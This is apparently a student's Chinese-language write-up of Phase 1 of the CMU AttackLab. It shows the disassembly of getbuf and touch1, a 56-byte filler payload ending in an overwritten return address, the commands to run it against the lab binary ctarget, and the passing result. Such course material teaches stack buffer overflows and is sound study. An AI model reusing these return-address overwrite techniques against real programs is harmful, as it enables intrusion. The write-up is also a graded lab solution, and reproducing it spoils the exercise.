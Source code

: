 # AttackLab

> 计64 翁家翌 2016011446

[TOC]

## Phase1

使用命令 `objdump -d ctarget > ctarget.d` 得到反汇编代码 `ctarget.d`。查找 `getbuf` 函数位置：

```assembly
00000000004017f5 <getbuf>:
  4017f5:	48 83 ec 38          	sub    $0x38,%rsp
  4017f9:	48 89 e7             	mov    %rsp,%rdi
  4017fc:	e8 7e 02 00 00       	callq  401a7f <Gets>
  401801:	b8 01 00 00 00       	mov    $0x1,%eax
  401806:	48 83 c4 38          	add    $0x38,%rsp
  40180a:	c3                   	retq   
```

`BUFFER_SIZE` 为 0x38，56个字符，因此56个字符之后的8个bit存储函数返回地址。

查找 `touch1` 函数位置：

```assembly
000000000040180b <touch1>:
  40180b:	48 83 ec 08          	sub    $0x8,%rsp
  40180f:	c7 05 03 2d 20 00 01 	movl   $0x1,0x202d03(%rip)        # 60451c <vlevel>
  401816:	00 00 00 
  401819:	bf 03 31 40 00       	mov    $0x403103,%edi
  40181e:	e8 ad f4 ff ff       	callq  400cd0 <puts@plt>
  401823:	bf 01 00 00 00       	mov    $0x1,%edi
  401828:	e8 97 04 00 00       	callq  401cc4 <validate>
  40182d:	bf 00 00 00 00       	mov    $0x0,%edi
  401832:	e8 19 f6 ff ff       	callq  400e50 <exit@plt>
```

构造攻击代码 `phase1.txt` 如下：

```
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
0b 18 40 00 00 00 00 00
```

使用命令 `./hex2raw < phase1.txt > 2016011446.ctarget.l1; ./ctarget -q -i 2016011446.ctarget.l1` 得到如下结果：

```
Cookie: 0x47db4e3a
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	liu
	course	15213-f15
	lab	attacklab
	result	2:PASS:0xffffffff:ctarget:1:41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 0B 18 40 00 00 00 00 00 
```
